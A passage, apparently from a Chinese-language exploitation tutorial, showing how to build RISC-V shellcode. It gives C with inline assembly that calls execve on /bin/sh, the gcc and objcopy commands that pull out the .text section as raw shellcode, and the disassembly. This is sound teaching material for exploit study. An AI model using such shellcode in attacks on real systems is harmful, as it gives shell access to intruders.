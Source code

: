 ```c
void * syscall();

__attribute__((section(".text"))) char shell_path[] = "/bin/sh";

int main() {
    syscall(221,shell_path,0,0);
}

asm(
    "syscall:\n"
    "mv a7, a0\n"
    "mv a0, a1\n"
    "mv a1, a2\n"
    "mv a2, a3\n"
    "ecall\n"
);
```

编译时除了以上的参数还需要：`-Os`参数，其可以把字符串扔到text段最后，原理不详。把字符串扔到text段最后的原因是：

1. 扣shellcode的时候一般就是将整个text段抠出
2. shellcode由于没有ELF的入口信息，一般来说为了方便，shellcode的开头即代码
3. 若字符串在text段首，虽然ELF能正常work，但是抠出来的shellcode开头却无法执行

```c
$ riscv64-linux-gnu-gcc -e main -nostdlib -Os -static shellcode.c -o shellcode
$ riscv64-linux-gnu-objcopy --dump-section .text=sc.bin shellcode
```

使用此种方法的反汇编结果如下，可见因为是直接将字符串存到了text段，所以在使用字符串时肯定需要根据pc寄存器进行相对寻址（risc-v中的auipc指令）：

```s
$ riscv64-linux-gnu-objdump -d shellcode
shellcode:     file format elf64-littleriscv


Disassembly of section .text:

0000000000010110 <main>:
   10110:	1141                	addi	sp,sp,-16
   10112:	4681                	li	a3,0
   10114:	4601                	li	a2,0
   10116:	00000597          	auipc	a1,0x0
   1011a:	02a58593          	addi	a1,a1,42 # 10140 <shell_path>
   1011e:	0dd00513          	li	a0,221
   10122:	e406                	sd	ra,8(sp)
   10124:	00c000ef          	jal	ra,10130 <syscall>
   10128:	60a2                	ld	ra,8(sp)
   1012a:	4501                	li	a0,0
   1012c:	0141                	addi	sp,sp,16
   1012e:	8082                	ret

0000000000010130 <syscall>:
   10130:	88aa                	mv	a7,a0
   10132:	852e                	mv	a0,a1
   10134:	85b2                	mv	a1,a2
   10136:	8636                	mv	a2,a3
   10138:	00000073          	ecall
   1013c:	00000013          	nop

0000000000010140 <shell_path>:
   10140:	6e69622f 0068732f 00000000               /bin/sh.......
```
